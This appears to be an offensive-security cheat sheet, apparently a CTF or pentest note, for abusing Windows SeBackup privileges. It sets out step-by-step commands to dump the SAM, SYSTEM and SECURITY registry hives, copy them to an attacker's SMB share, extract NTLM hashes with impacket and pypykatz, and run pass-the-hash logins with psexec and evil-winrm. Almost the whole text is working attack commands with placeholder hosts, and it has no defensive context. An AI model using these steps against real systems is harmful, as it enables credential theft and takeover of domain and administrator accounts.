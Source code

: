 # Dump SAM and SYSTEM hives

## Privileges: SeBackup/SeRestore

#### 1: Backup SAM and SYSTEM hashes

 - cd /

 - mkdir temp

 - cd temp

 - req save hklm\system c:\temp\system

 - req save hklm\sam c:\temp\sam

 - download sam

 - download system

#### 2: Create SMB Server on attacking machine

 - 1: mkdir share

 - 2: impacket-smbserver -smb2support -username USER -password PASSWORD public share

#### 3: Copy backups to share folder

- copy c:\users\user\sam.hive \\ATTACK_IP\public\

- copy c:\users\user\system.hive \\ATTACK_IP\public\

#### 4: Retrieve hashes

 - impacket-secretsdump -sam sam.hive -system system.hive LOCAL

## OR 

 - pypykatz registry --sam sam system

#### 5: Pass-The-Hash Attack (PtH)

- impacket-psexec -hashes HASH administrator@TARGET_IP

#### TIP: We can also use evil-winrm for PtH attacks.

- evil-winrm -i TARGET_IP -u administrator -H 'NTLM_HASH'

## Alternate Method to transfer the Hives: reg.py  remotely on Linux

 - python smbserver.py -smb2support share /tmp

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SAM' -o '\\attacker ip\share'

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SYSTEM' -o '\\attacker ip\share'

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SECURITY' -o '\\attacker ip\share'

## Alternate Method: SeBackupPrivilegeUtils https://github.com/giuliano108/SeBackupPrivilege

### Usage:

 - Import-Module .\SeBackupPrivilegeUtils.dll

 - Import-Module .\SeBackupPrivilegeCmdLets.dll

 - Set-SeBackupPrivilege

 - Get-SeBackupPrivilege

## Alternate Method: Robocopy

 - robocopy C:\Users\Administrator\Desktop C:\Users\Public root.txt /B

 - type C:\Users\Public\root.txt

## Alternate Method: diskshadow.exe

### Create a script for diskshadow to execute

 - cd /

 - mkdir temp

 - cd temp

 - echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii

 - echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append

 - echo "create" | out-file ./diskshadow.txt -encoding ascii -append

 - echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append

 - dir

 - diskshadow.exe /s c:\temp\diskshadow.exe

  ### Copy the SAM/SYSTEM/SECURITY hives to our temp folder

 - robocopy /b Z:\Windows\System32\Config C:\temp SAM

 - robocopy /b Z:\Windows\System32\Config C:\temp SYSTEM

 - robocopy /b Z:\Windows\System32\Config C:\temp SECURITY

### Then download all of them to our machine



